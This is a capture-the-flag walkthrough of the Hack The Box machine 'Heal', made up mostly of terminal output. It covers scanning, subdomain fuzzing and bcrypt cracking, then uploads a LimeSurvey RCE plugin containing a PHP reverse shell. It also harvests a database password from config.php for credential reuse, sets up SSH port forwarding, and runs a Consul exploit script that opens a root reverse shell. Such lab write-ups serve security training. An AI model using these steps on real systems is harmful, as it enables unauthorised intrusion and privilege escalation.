


# Heal


```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.46 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 21:52 CET
Nmap scan report for 10.10.11.46
Host is up (0.24s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.42 seconds
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.46
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.11.46 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 21:55 CET
Nmap scan report for 10.10.11.46
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
|_  256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   96.32 ms 10.10.16.1
2   44.63 ms 10.10.11.46

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.11 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ cat /etc/hosts | grep 10.10.11.46
10.10.11.46 heal.htb
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ cat /etc/hosts | grep 10.10.11.46
10.10.11.46 heal.htb take-survey.heal.htb api.heal.htb
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ dirsearch -u "http://take-survey.heal.htb/index.php/" -t 30 -i 200

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Heal/Heal/content/reports/http_take-survey.heal.htb/_index.php__25-01-24_22-36-03.txt

Target: http://take-survey.heal.htb/

[22:36:03] Starting: index.php/
[22:36:28] 200 -   75KB - /index.php/admin/mysql/index.php
[22:36:40] 200 -   75KB - /index.php/bitrix/admin/index.php
```

admin/

<figure><figcaption></figcaption></figure>


```bash
❯ wfuzz -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.heal.htb" http://heal.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://heal.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000000001:   301        7 L      12 W       178 Ch      "statistics"                                                                                                                                                         
000000012:   301        7 L      12 W       178 Ch      "contact"                                                                                                                                                            
000000031:   301        7 L      12 W       178 Ch      "archives"   
```


```bash
❯ wfuzz -c --hh=178 --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.heal.htb" http://heal.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://heal.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000001013:   200        90 L     186 W      12515 Ch    "api"   
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>




<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ hashid '$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG'
Analyzing '$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...[snip]...

$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
```


[http://take-survey.heal.htb/index.php/admin/authentication/sa/login](http://take-survey.heal.htb/index.php/admin/authentication/sa/login) aaa


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>





```bash
❯ git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE; cd Limesurvey-RCE
Clonando en 'Limesurvey-RCE'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 24 (delta 2), reused 0 (delta 0), pack-reused 18 (from 1)
Recibiendo objetos: 100% (24/24), 10.00 KiB | 10.00 MiB/s, listo.
Resolviendo deltas: 100% (5/5), listo.
```


añadir 6


```bash
❯ cat config.xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>Y1LD1R1M</name>
        <type>plugin</type>
        <creationDate>2020-03-20</creationDate>
        <lastUpdate>2020-03-31</lastUpdate>
        <author>Y1LD1R1M</author>
        <authorUrl>https://github.com/Y1LD1R1M-1337</authorUrl>
        <supportUrl>https://github.com/Y1LD1R1M-1337</supportUrl>
        <version>5.0</version>
        <license>GNU General Public License version 2 or later</license>
        <description>
		<![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>
        <version>6.0</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```


<figure><figcaption></figcaption></figure>


```bash
❯ zip Gzzcoo.zip config.xml php-rev.php
  adding: config.xml (deflated 57%)
  adding: php-rev.php (deflated 61%)
❯ ls -l Gzzcoo.zip
.rw-rw-r-- kali kali 1.6 KB Fri Jan 24 22:57:27 2025  Gzzcoo.zip
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

accedemos a [http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php](http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php)


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.46] 49700
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 22:15:53 up  1:24,  0 users,  load average: 0.09, 0.06, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@heal:/$
```


```bash
www-data@heal:~/limesurvey/admin$ ls -l
total 8
-rwxr-x--- 1 www-data www-data   33 Sep 27 10:27 admin.php
-rwxr-x--- 1 www-data www-data 1103 Sep 27 10:27 index.php
www-data@heal:~/limesurvey/admin$ cat index.php 
<?php

/*
* LimeSurvey
* Copyright (C) 2007-2011 The LimeSurvey Project Team / Carsten Schmitz
* All rights reserved.
* License: GNU/GPL License v2 or later, see LICENSE.php
* LimeSurvey is free software. This version may have been modified pursuant
* to the GNU General Public License, and as distributed it includes or
* is derivative of works licensed under the GNU General Public License or
* other free or open source software licenses.
* See COPYRIGHT.php for copyright notices and details.
*/

$config_folder = dirname(__FILE__) . '/../application/config/';
$config_file = $config_folder . 'config.php';
if (!file_exists($config_file)) {
    $config_file = $config_folder . 'config-sample-mysql.php';
}
define('BASEPATH', dirname(__FILE__) . '/..'); // To prevent direct access not allowed
$config = require($config_file);

$urlStyle = $config['components']['urlManager']['urlFormat'];

// Simple redirect to still have the old /admin URL
if ($urlStyle == 'path') {
    header('Location: ../index.php/admin');
} else {
    // For IIS use get style
    header('Location: ../index.php?r=admin');
}
```


```bash
www-data@heal:~/limesurvey/application/config$ cat config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');

...[snip]...

return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
```


```bash
www-data@heal:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
www-data@heal:/$ su ralph
Password: 
su: Authentication failure
www-data@heal:/$ su ron
Password: 
ron@heal:/$ cat /home/ron/user.txt 
5a4c50cd03979eab6aa0c197792d4ec3
```


```bash
ron@heal:~$ netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      off (0.00/0/0)
```


```bash
❯ ssh  -L 5423:127.0.0.1:5432 -L 8300:127.0.0.1:8300 -L 8301:127.0.0.1:8301 -L 8302:127.0.0.1:8302 -L 8500:127.0.0.1:8500 -L 8503:127.0.0.1:8503 -L 8600:127.0.0.1:8600 -L 3000:127.0.0.1:300 -L 3001:127.0.0.1:3001 ron@10.10.11.46
ron@10.10.11.46's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

ron@heal:~$
```


```bash
❯ nmap -p- localhost
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-24 23:36 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0000040s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE
3000/tcp  open  ppp
3001/tcp  open  nessus
5423/tcp  open  virtualuser
8080/tcp  open  http-proxy
8300/tcp  open  tmi
8301/tcp  open  amberon
8302/tcp  open  unknown
8500/tcp  open  fmtp
8503/tcp  open  lsp-self-ping
8600/tcp  open  asterix
42583/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```


<figure><figcaption></figcaption></figure>




```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ python3 exploit.py 127.0.0.1 8500 10.10.16.5 443 0

[+] Request sent successfully, check your listener
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.46] 35072
bash: cannot set terminal process group (12578): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# cat /root/root.txt
cat /root/root.txt
5bcfe05b5dd4d8941591a269e459bda9
```
